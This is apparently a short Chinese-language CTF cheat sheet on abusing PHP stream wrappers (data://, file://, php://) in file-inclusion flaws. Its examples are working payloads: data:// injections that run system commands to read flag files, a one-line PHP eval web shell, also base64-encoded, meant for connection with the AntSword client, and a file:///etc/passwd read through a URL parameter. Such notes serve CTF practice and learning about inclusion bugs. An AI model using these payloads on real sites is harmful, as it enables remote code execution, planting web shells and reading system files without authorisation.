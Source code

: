 ***

### data://

数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。

`data:text/plain,<?=system("tac fla*");?>`

#### data伪协议的格式

`data://text/plain;base64,`

data:资源类型(MIME类型);编码,内容

举例：

```
1.c=data://text/plain,<?php system("cat fla*");?>
读flag

2.c=data:,<?php @eval($_POST['shell']); ?>
可以直接用蚁剑连接

3.c=data:text/base64,PD9waHAgQGV2YWwoJF9QT1NUWydzaGVsbCddKTsgPz4=
```

#### 类型扩展

```
data:,                                     <文本数据>
data:text/plain,                           <文本数据>
data:text/html,                            <HTML代码>
data:text/html;base64,                     <base64编码的HTML代码>
data:text/css,                             <CSS代码>
data:text/css;base64,                      <base64编码的CSS代码>
data:text/javascript,                      <Javascript代码>
data:text/javascript;base64,               <base64编码的Javascript代码>
data:image/gif;base64,                     <base64编码的gif图片数据>
data:image/png;base64,                     <base64编码的png图片数据>
data:image/jpeg;base64,                    <base64编码的jpeg图片数据>
data:image/x-icon;base64,                  <base64编码的icon图片数据>
```

***

### file://

用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响
file://协议主要用于访问文件(绝对路径、相对路径以及网络路径)
比如：`http://www.xx.com?file=file:///etc/passsword`

***

### php://

在allow_url_fopen，allow_url_include都关闭的情况下可以正常使用
php://作用为访问输入输出流
